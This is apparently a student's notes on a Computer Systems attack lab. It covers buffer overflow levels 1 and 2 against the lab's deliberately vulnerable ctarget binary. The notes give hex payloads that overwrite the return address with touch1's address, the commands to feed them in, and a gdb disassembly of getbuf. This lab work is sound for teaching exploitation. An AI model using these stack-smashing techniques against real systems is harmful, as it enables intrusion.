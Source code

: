 # Buffer Overflow Attack Notes

:dagger: => :computer:

## LEVEL 1

By testing how many bytes the `getbuf` can receive most, and reading the assembly code, we derive that it could take up to 55 characters wothout exiting abnormally.

The address of `touch1`: `00000000004016ed`. We need to insert it to `(%rsp)` right after it called `getbuf`.

The string we need to input in hex representation is shown below:

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 ed 16 40
```

Or... Add some magic.

```txt
54 68 65 20 62 69 67 20 62 72
6f 74 68 65 72 20 69 73 20 77
61 74 63 68 69 6e 67 20 68 69
6d 21 20 59 6f 75 27 6c 6c 20
62 65 20 73 65 6e 74 20 74 6f
20 31 30 31 2e 2e ed 16 40
```

By running the following command, we could input the target string to `stdin`:

```sh
./hex2raw < exploit.txt > exploit-raw.txt
./ctarget < exploit-raw.txt
```

We get the first hacking attempt done!

## Let's go to LEVEL 2

In this level. We have two things to do.

- Jump to cookie `0x4016d7`
- Change the parameter in touch2 to `cookie`

Find out the `%rsp` value in `getbuf`.

```sh
(gdb) b getbuf
Breakpoint 1 at 0x4016d7: file buf.c, line 12.
(gdb) run -q
Starting program: /mnt/c/star/computer-systems/target65/ctarget -q
Cookie: 0x110dfc17

Breakpoint 1, getbuf () at buf.c:12
(gdb) nexti
14      in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004016d7 <+0>:     sub    $0x38,%rsp
=> 0x00000000004016db <+4>:     mov    %rsp,%rdi
   0x00000000004016de <+7>:     callq  0x401927 <Gets>
   0x00000000004016e3 <+12>:    mov    $0x1,%eax
```